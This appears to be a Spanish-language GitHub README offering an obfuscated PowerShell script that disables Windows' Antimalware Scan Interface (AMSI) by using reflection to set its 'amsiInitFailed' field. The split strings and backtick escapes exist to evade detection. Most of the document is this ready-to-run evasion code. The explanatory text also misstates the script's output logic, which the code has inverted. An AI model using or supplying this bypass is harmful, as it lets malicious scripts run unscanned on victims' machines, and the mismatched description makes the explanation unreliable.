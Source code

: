 # Bypass AMSI
El script de PowerShell intenta deshabilitar el Servicio Interfaz de examen antimalware (AMSI) de Microsoft, una característica de seguridad de Windows que permite a las aplicaciones antivirus escanear scripts de PowerShell en busca de comportamientos maliciosos.

Primero, la función **`Is-AMSIDisabled`** verifica si AMSI está deshabilitado, utilizando **`Get-variable`** para obtener una variable específica y comprobando si el campo 'amsi' es verdadero.

Luego, el bloque **`try`** intenta deshabilitar AMSI estableciendo el campo 'amsi' en verdadero. Si tiene éxito, imprime "AMSI Successfully Disabled". Si AMSI ya está deshabilitado, imprime "AMSI". Si hay un error, captura la excepción con catch e imprime "Error Disabling AMSI: $_", donde $_ es la excepción capturada.



```
# Author: Taurus Omar
# Verify if AMSI is disabled
function Is-AMSIDisabled {
    return ((Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).GetValue($null) -eq $true
}

# AMSI Bypass
try {
    Set-Item ('Va'+'rI'+'a'+'blE:1'+'q2'+'uZx') ([TYpE]("F"+'rE')) 
    (Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).(sE`T`VaLUE)(${n`ULl},${t`RuE})

    if (Is-AMSIDisabled) {
        Write-Output "AMSI"
    } else {
        Write-Output "AMSI Successfully Disabled"
    }
} catch {
    Write-Output "Error Disabling AMSI: $_"
}

```
